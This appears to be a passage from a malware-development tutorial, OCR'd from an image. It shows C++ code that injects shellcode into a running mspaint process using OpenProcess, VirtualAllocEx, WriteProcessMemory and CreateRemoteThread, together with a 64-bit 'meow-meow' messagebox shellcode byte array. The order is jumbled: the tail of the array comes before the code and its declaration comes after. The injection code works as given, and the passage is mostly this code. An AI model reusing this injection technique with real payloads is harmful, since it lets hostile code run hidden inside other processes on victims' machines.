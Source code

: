 ```cpp
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL,
  sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
}
```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
```